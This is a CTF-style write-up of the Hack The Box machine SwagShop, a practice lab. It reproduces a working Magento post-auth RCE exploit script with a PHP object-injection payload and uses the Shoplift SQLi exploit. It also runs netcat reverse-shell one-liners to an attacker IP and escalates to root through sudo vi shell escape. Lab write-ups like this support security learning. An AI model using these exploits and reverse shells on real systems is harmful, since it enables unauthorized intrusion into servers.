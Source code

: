Ping
![[Pasted image 20240704161528.png]]

Nmap Scans
```
mapit 10.10.10.140
```

Nmap Default Scan
![[Pasted image 20240704161610.png]]

Nmap Service and Script Scan
![[Pasted image 20240704161751.png]]

Nmap All Port Scan
![[Pasted image 20240704161937.png]]

Have changed added swagshop.htb to my hosts file
![[Pasted image 20240704162143.png]]

On Port 80 http://swagshop.htb/
![[Pasted image 20240704161912.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240704162622.png]]

 I have found this in /app dir
![[Pasted image 20240704165349.png]]
I think it is mysql cred, but we can't reach mysql server from outside

We can see the website is running Magento Copyrighted at 20145, so it should be older version
![[Pasted image 20240704163145.png]]

Will check for public exploit and there are lot will use this https://github.com/joren485/Magento-Shoplift-SQLI

Have saved the code in file named exp.py and executed
```
python2 exp.py http://swagshop.htb
```
![[Pasted image 20240704164255.png]]

But we can't get the admin page with this url, instead we have to add index.php 
http://swagshop.htb/index.php/admin
![[Pasted image 20240704164414.png]]

Will login using the password provided by the exploit code ypwq:123

We got admin dashboard   
![[Pasted image 20240704165400.png]]

And found another exploit for this version but it is authenticated RCE https://www.exploit-db.com/exploits/37811
Saved the script in the file named exp1.py and executed
```
python2 exp1.py http://10.10.10.140 "id"
```
![[Pasted image 20240704165739.png]]

I have check the code and found the problematic area and commented it.
![[Pasted image 20240704165945.png]]

This script need a tons of modification, the below is modified Exploit Script for RCE
```
#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15
# CVE : none

from hashlib import md5
import sys
import re
import base64
import requests

def usage():
    print("Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\"" % (sys.argv[0], sys.argv[0]))
    sys.exit()

if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'ypwq'
password = '123'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = (
    'O:8:"Zend_Log":1:{s:11:"\00*\00_writers";a:2:{i:0;O:20:"Zend_Log_Writer_Mail":4:{s:16:'
    '"\00*\00_eventsToMail";a:3:{i:0;s:11:"EXTERMINATE";i:1;s:12:"EXTERMINATE!";i:2;s:15:"'
    'EXTERMINATE!!!!";}s:22:"\00*\00_subjectPrependText";N;s:10:"\00*\00_layout";O:23:"'
    'Zend_Config_Writer_Yaml":3:{s:15:"\00*\00_yamlEncoder";s:%d:"%s";s:17:"\00*\00'
    '_loadedSection";N;s:10:"\00*\00_config";O:13:"Varien_Object":1:{s:8:"\00*\00_data"'
    ';s:%d:"%s";}}s:8:"\00*\00_mail";O:9:"Zend_Mail":0:{}}i:1;i:2;}}' % 
    (len(php_function), php_function, len(arg), arg)
)

s = requests.session()
data = {
    'login[username]': username,
    'login[password]': password,
    'form_key': '6I8iRr8WcOtoVnpU',
    'dummy': ''
}

res = s.post(target, data=data)
content = res.content

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)

key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

data = {'isAjax': 'false', 'form_key': key}
request = s.post(url + 'block/tab_orders/period/2y/?isAjax=true', data=data)
res = request.content

tunnel = re.search("src=\"(.*)\?ga=", request.content)
tunnel = tunnel.group(1)

payload = base64.b64encode(payload.encode()).decode()
gh = md5((payload + install_date).encode()).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh
req = s.get(exploit)
print(req.content)

```

Will Jump to Initial Foothold...!




Will execute this exploit and it was saved in a file named exp1.py
```
python2 exp1.py http://10.10.10.140/index.php/admin "id"
```
![[Pasted image 20240706132324.png]]

Will get a reverse shell now, 
```
python2 exp1.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f"
```
![[Pasted image 20240706133102.png]]
Got it....!

**User.txt**
![[Pasted image 20240706133639.png]]


Will Jump to Privilege Escalation....!

Will check our Privilege
```
sudo -l
```
![[Pasted image 20240706133908.png]]
We have wildcard, will enumerate further

we can use this privilege to become root
```
sudo /usr/bin/vi /var/www/html/pwn
```
This will open a file as root in vi

Then will get a shell as root using Vi
```
:set shell=/bin/sh 
```
```
:shell
```
![[Pasted image 20240706135613.png]]
Got root shell, will get a new shell as root, I don't like this shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f
```
![[Pasted image 20240706135710.png]]

Got new Shell as root
![[Pasted image 20240706135732.png]]

**Root.txt**
![[Pasted image 20240706135810.png]]



Done with Swagshop.......:) 